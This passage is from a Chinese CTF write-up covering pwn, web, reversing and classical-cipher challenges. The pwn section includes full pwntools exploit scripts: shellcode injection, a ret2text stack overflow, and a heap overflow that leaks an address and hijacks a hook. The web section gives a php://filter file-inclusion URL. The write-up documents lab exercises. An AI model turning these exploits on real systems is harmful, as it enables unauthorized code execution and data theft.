所以直接输入shellcode就能getshell了，用shellcraft可以方便点，直接写机器码也可以

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("43.136.137.17",3914)
#io = process("./shellcode")
context(os="linux",arch="amd64",log_level="debug")

shellcode = asm(shellcraft.sh())
io.sendline(shellcode)

io.interactive()
```

### ret2text

看保护





出题人要给我们礼物，还让我们许愿


给了一堆以 a 开头的四级词汇。。。

虽然看起来不知道要干什么，但是去看rodata段就可以看到 /bin/sh 


对应单词action，直接可以getshell了

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("moectf.challenge.ctf.show",27002)
#io = process("./ret2text")

addr = 0x4014c2
offset = 0x40+8

payload = ('A'*offset).encode() + p64(addr)
io.sendline(payload)

io.interactive()
```

### S1MPLE_HEAP

查看保护


保护全开。

第一次做堆题，顺便可以了解下堆管理机制。

IDA看下


堆的操作函数

还有个后门


分别进函数里面再看下

在fill()函数里面看到read()多读取了 24 = 3 * 8 个字节


然后就是边用gdb调试边熟悉程序，程序中没有调用malloc函数分配堆内存，而是在bss段分配内存来模拟堆的操作，因此wiki上面的那些堆利用技巧都用不上，但是作为堆肯定通过溢出控制堆指针来获取某块内存任意写的能力。

分配空间时  空间会自动以 0x10 对齐。

从allocate函数和程序运行中可以看到可分配的最大内存为1008        + 16（16为chunk头）


gdb调试下


阅读对应代码并调试可以得到mmap为实际使用内存，ChunkInfo为地址索引（使用中的chunk的数据区地址），fastbin为回收释放内存的单链表表头。

chunk如果在使用中，该chunk的前8个字节为0x00000000eeeeeeee；若处于空闲状态则为0x00000000ffffffff。后面紧跟着 可使用空间 的大小。

在分配时会先在fastbin里面查找有没有合适的堆块，如果有则分配给用户，没有则重新分配。

本来想在mmap里面修改fd指针的，然后一直不知道该怎么弄，就转向fastbin里面了，mallochook()函数也在fastbin里面，很明显就是把这个地方改成后门地址就可以了。


exp过程：

首先，先创建一个较大的堆块，剩下的空间恰好够一个小堆块。现在就有了两个堆块。且充满了mmap空间。

然后，释放第一个堆块，fastbin里面就会有一个指针。fill之前分配的那个小堆块，因为read函数的多余读取，可以覆盖到指针位置。就可以泄露地址，从而绕过PIE。

最后再次对小堆块进行填充，把fastbin伪造成一个空闲chunk，fastbin为0xffffffff，fastbin+8为0x10，fastbin+16改为 fastbin 的地址，再次分配0x10的chunk，即可操作 fastbin+16 后 0x10 的空间，把 后门地址填充到后8个字节，再次进入allocate函数就可以getshell了。

exp:

```python
#!/usr/bin/env python3
from pwn import *

#io = remote("pwn.blackbird.wang",9600)
io = process("./s1mple_heap")
heap = ELF("./s1mple_heap")

context.log_level = 'debug'

def alloc(size):
    io.sendlineafter(b"exit\n",b'1')
    io.sendlineafter(b"size:",str(size))

def delet(index):
    io.sendlineafter(b"exit\n",b'2')
    io.sendlineafter(b"index:",str(index))

def fill_t(index, content):
    io.sendlineafter(b"exit\n",b'3')
    io.sendlineafter(b"index:",str(index))
    io.sendlineafter(b"content:",content)
    io.send(b'\n')

def prin_t(index):
    io.sendlineafter(b"exit\n",b'4')
    io.sendlineafter(b"index:",str(index))

alloc(976)
alloc(0x10)
delet(0)

fill_t(1,('A'*0x1F).encode())
prin_t(1)
io.recvline()
io.recvline()
mmap = u64(io.recv(6).ljust(8,b'\x00'))                         #泄露mmap地址
print(hex(mmap))

one_gadget = mmap - 0x4040 + 0x1DFD

alloc(0x10)
fill_t(1,('A'*0x10).encode() + p64(0xffffffff) + p64(0x10) + p64(mmap + 0x400))
alloc(0x10)
fill_t(2,p64(0) + p64(one_gadget) + p64(0) + p64(0) + p64(0))

io.recv()
io.sendline(b'1')
#attach(io)
io.interactive()
```

## web

### ezhtml

F12修改html即可（四科之和等于总分，大于600）



### web安全之入门指北

### God_of_Aim

打通第一部分，给一半flag，第二部分不可能用手打过吧

在网页源代码里面看了下，看到aimtrainer.js似乎是混淆过的



找找反混淆工具，得到



### inclusion

这个题和搜索到的几乎一模一样，都是文件包含



构造成 http://82.156.5.200:1041/?file=php://filter/convert.base64-encode/resource=flag.php

得到flag的base64，解码得到一个ikun



## basic

### run me

程序拖到cmd，回车



### CCCCC

运行即得，每位异或0xff相当于按位取反

### Python

脚本将enc的每个的前五个bit位和后3个bit位交换，之后减去当前元素的索引，再异或key的对应元素，得到flag

### run me 2

linux下运行即得

### On-Campus Sign-in

## 古典密码

### ABCDEFG~

编写python脚本

```python
from string import ascii_uppercase
flag =[18,24,26,13,8,18,13,20,26,15,11,19,26,25,22,7,8,12,13,20]
for i in flag:
	print(ascii_uppercase[::-1][i-1],end="")
```

### 小小凯撒

字母表中既有大写又有小写，编写脚本爆破

```python
from string import ascii_letters

key = iter([1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25])
for j in range(26):
    for i in "kqEftuEUEftqOADDqoFRxmsOAzsDmFGxmFuAzE":
        print((ascii_letters)[(ascii_letters.find(i))-j],end="")
    print()
```

### 凯撒变异了

和小小凯撒差不多，就是多了个 114514 的key，每一位按照对应偏移量往回偏移即可

```python
from string import ascii_letters, ascii_lowercase,ascii_uppercase
import itertools

pw = itertools.cycle('114514')
for i in "ZpyLfxGmelDeftewJwFbwDGssZszbliileadaa":
        print((ascii_letters)[(ascii_letters.find(i))-int(next(pw))],end="")
```

### Vigenere

在浏览ctf-wiki时看到了爆破的在线工具，未知密钥



得到



## 现代密码

### 密码学之入门指北